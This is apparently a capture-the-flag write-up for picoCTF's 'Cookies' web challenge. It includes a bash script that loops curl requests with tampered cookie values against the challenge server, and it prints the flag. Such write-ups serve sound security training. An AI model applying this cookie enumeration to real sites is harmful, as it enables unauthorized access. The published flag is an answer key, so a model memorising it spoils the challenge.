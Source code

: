 ```yaml
---
tags:
  - curl
  - bash
created: 2023-11-19
last_modified_at: 2024-02-04
---
```

# Cookies
---
### Description
---
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/) 
### Hints
---

> [!hint]- Hint(s)
> 1. 

### Step(s)
---
1. Here we can see that we have the cookie named "name" and when you change the value to an int like 1 you will get a response with "I love chocolate chip cookies!". 
2. Knowing this we can either manually change the cookie and check every response or use either (Burp Suite / ZAP) or a curl script
3. I chose to go with the curl script and made the following script that will give back whatever is in the "jumbotron" div
```bash
#!/bin/bash

url="http://mercury.picoctf.net:17781/check"
cookie_name="name"

for ((i = 1; i <= 30; i++)); do
    # Use curl to send a request with an incremented cookie value
    response=$(curl -b "$cookie_name=$i" -c cookies.txt "$url" 2>/dev/null)

    # Extract content within <div class="jumbotron">
    jumbotron_content=$(echo "$response" | sed -n '/<div class="jumbotron">/,/<\/div>/p')

    # If content is found, display it
    if [ -n "$jumbotron_content" ]; then
        echo "Request $i Jumbotron Content:"
        echo "$jumbotron_content"
        echo "----------------------"
    fi

    # You can add additional processing or checks here if needed

    # Sleep for a short duration before sending the next request
    sleep 1
done
```

### Flag
---
> [!question]- Flag
> picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}







